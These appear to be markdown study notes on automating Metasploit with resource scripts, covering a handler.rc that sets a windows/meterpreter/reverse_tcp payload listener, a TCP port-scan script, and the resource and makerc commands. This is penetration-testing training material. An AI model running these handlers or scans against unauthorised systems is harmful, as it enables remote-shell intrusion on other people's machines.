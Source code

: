 * There are few commands which can be reptitive like setting up a multi/handler
* Metasploit resource scripts operate similarly to batch scripts, whereby we can specify a set of MSFConsole commands thast we want to execute sequentially.

* PRACTICAL
* **Pre-packaged Scripts**
    * `ls -al /usr/share/metasploit-framework/scripts/resource/`
    * Check the script with VIM
    * `vim /usr/share/metasploit-framework/scripts/resource/[script_name]`
 
* **Write own script: Setup a handler with automated script**
  * `vim handler.rc`
  * `use multi/handler`
  * `set payload windows/meterpreter/reverse_tcp
  * `set lhost [ip]`
  * `set LPORT [PORT]`
  * `run`
  * ***
  * **How to use this script**:
    * `msfconsole -r handler.rc`
    * This will do everything in one step
   
* ***
* **Another script**
  * `vim portscan.rc`
  * `use auxiliary/scanner/portscan/tcp`
  * `set rhosts [IP]`
  * `run`
  * `msfconsole -r portscan.rc`
 ***
* **Load automated script from within the MSFConsole**
  * `resource ~/Desktop/Windows_Payloads/handler.rc`
 ***
* **Generate a resource script from within msfconsole**
  	* After following the manual process to use a module, if we want to save the commands that we have just typed:
    * `makerc ~/Desktop/portscan.rc` --> This will save all the commands previously executed.
    * `cat portscan.rc` --> Check if the commands are saved
